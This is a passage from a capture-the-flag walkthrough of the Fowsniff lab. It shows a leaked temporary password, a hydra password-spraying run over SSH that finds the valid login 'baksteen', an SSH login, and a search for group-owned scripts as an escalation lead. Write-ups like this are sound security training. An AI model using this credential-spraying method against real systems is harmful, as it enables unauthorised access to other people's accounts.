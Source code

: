 # #9 - Looking through her emails, what was a temporary password set for her?

Answer: `S1ck3nBluff+secureshell`

# #10 - In the email, who send it? Using the password from the previous question and the senders username, connect to the machine using SSH.

Extracting the list of recipients of the email, we can use hydra to confirm what user has not changed the password:

~~~
kali@kali:/data/Fowsniff_CTF/files$ hydra -L sshusers.txt -p S1ck3nBluff+secureshell ssh://10.10.137.20
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-03 20:14:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:8/p:1), ~1 try per task
[DATA] attacking ssh://10.10.137.20:22/
[22][ssh] host: 10.10.137.20   login: baksteen   password: S1ck3nBluff+secureshell
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-03 20:14:47
~~~

We can now connect as `baksteen` against the SSH service:

~~~
$ ssh baksteen@10.10.137.20
~~~

# #11 - Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?

*Hint: cube.sh*

Baksteen belongs to the `users` group. Listing the files owned by this group reveals an interesting file (a shell script):

~~~
baksteen@fowsniff:~$ id
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
baksteen@fowsniff:~$ find / -type f -group users 2>/dev/null
/opt/cube/cube.sh
[REDACTED]
~~~
